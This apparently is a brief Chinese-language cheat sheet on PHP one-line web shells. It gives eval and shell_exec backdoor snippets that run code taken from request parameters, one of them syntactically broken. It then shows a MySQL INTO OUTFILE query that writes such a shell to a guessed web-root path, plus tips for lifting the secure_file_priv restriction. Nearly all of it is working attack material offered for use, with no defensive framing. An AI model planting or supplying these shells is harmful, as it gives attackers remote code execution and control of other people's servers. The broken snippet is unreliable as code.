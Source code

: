```
<?php shell_exec=$_get['cmd']>
```



```
<?php @eval($_POST['shell']);?>
```

最简单的php一句话


上传方法
1.通过mysql写入

```
select "<?php @eval($_POST['pass']);?>" INTO OUTFILE "D:\\WWW\\22.php"
```

问题：需要对路径进行猜测

```
如果出现：
　　提示错误[Error Code] 1290 - The MySQL server is running with the --secure-file-priv option解决办法
是mysql设置的权限的问题
mysql对通过文件导入导出作了限制，默认不允许
show variables like '%secure%';
修改my.ini
secure_auth = ON
secure_file_priv = ""
注意：　
　　1、绝对路径的猜解
　　2、INTO OUTFILE 后面的"D:\\WWW\\22.php"(对反斜杠做了一次转义)
```

